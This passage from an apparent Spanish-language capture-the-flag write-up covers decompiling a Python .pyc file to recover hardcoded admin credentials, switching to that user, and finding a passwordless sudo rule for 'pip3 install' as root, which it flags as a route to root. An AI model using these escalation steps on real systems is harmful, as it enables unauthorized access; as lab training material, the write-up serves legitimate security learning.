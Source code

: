 #### 5.3.1 Descompilación
Para analizar el archivo .pyc, utilizamos uncompyle6:

```bash
uncompyle6 /opt/scripts/__pycache__/secret.cpython-38.pyc
```

**Código decompilado:**
```python
def auth():
    username = "admin"
    password = "p@$$w0r8321"
    print("Authenticating...")
```

¡Excelente! Encontramos credenciales hardcodeadas:
- **Usuario:** admin
- **Contraseña:** p@$$w0r8321

---

## 6. Escalada Horizontal (dev → admin)

### 6.1 Cambio de Usuario
Con las credenciales extraídas del archivo Python:

```bash
su admin
# Password: p@$$w0r8321
```

✅ **Acceso exitoso como usuario `admin`**

---

## 7. Análisis de Privilegios

### 7.1 Verificación de Permisos Sudo
Comprobamos qué comandos puede ejecutar admin con privilegios de root:

```bash
sudo -l
```

**Resultado:**
```
User admin may run the following commands on pkgpoison:
    (ALL) NOPASSWD: /usr/bin/pip3 install *
```

🚨 **VULNERABILIDAD CRÍTICA IDENTIFICADA:**
El usuario admin puede ejecutar `pip3 install` como root sin contraseña, lo que permite ejecutar código arbitrario durante la instalación de paquetes Python.

---
